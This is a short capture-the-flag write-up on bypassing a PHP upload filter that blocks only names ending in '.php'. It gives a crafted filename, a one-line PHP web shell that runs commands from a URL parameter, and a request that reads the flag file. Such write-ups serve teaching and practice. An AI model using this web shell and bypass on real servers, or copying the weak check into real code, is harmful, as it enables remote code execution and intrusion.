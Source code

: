 *The developer has implemented a file upload filter. Can you find a way to bypass it and read the flag? [https://cybersecure-x-wavelength.chals.io/](https://)*

This challenge is based on a real-world vulnerability caused by weak server-side file upload validation and a mismatch in how the file is interpreted by the web server (Apache).

The PHP upload script uses a basic check:

```php
if (str_ends_with($filename, ".php")) {
    die("PHP files are not allowed!");
}
```

This only blocks filenames that **end exactly** with `.php`.
An attacker can name their file like:

```
shell.php........................................................txt
```

This leads to **Remote Code Execution (RCE)**:
```php
<?php if(isset($_GET['cmd'])) system($_GET['cmd']); ?>
```

Then access it like:
http://localhost:8080/uploads/shell.php...........txt?cmd=cat /opt/flag.txt

Flag:
`FLAG{rce_filename_bypass_1337}`
